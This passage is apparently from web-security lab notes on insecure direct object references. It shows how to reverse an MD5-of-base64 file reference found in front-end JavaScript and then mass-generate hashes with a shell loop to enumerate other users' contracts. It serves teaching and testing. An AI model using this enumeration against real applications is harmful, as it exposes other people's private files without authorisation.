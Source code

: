 ## Bypassing Encoded References 

In some cases, web applications make hashes or encode their object references, making enumeration more difficult, but it may still be possible. For example, after download a file we intercept in the POST:
```
contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```

Testing the format we find that It doesn't match with our id:
```console
zero@pio$ echo -n 1 | md5sum

c4ca4238a0b923820dcc509a6f75849b -
```

### Function Disclosure

As most modern web applications are developed using JavaScript frameworks, like **Angular**, **React**, or **Vue.js**, many web developers may make the mistake of performing sensitive functions on the front-end, which would expose them to attackers. We can find a download script, reference as `javascript:downloadContract('1')`. Searching in the source code we find that:
```javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

We see it is encrypting `btoa(uid)`, which is the uid in base64. With all this information we can guess the hash:
```console
zero@pio$ echo -n 1 | base64 -w 0 | md5sum

cdd96d3cc73d1dbdaffa03cc6cd7339b -
```

> We are using the -n flag with echo, and the -w 0 flag with base64, to avoid adding newlines
{: .prompt-tip}

### Mass Enumeration 

Once again we can start enumerating all the data. We can generate a list of hashes for each user:
```console
zero@pio$ for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done

cdd96d3cc73d1dbdaffa03cc6cd7339b
0b7e7dee87b1c3b98e72131173dfbbbf
0b24df25fe628797b3a50ae0724d2730
f7947d50da7a043693a592b4db43b0a1
8b9af1f7f76daf0f02bd9c48c4a2e3d0
006d1236aee3f92b8322299796ba1989
b523ff8d1ced96cef9c86492e790c2fb
d477819d240e7d3dd9499ed8d23e7158
3e57e65a34ffcb2e93cb545d024f5bde
5d4aace023dc088767b4e08c79415dcd
```
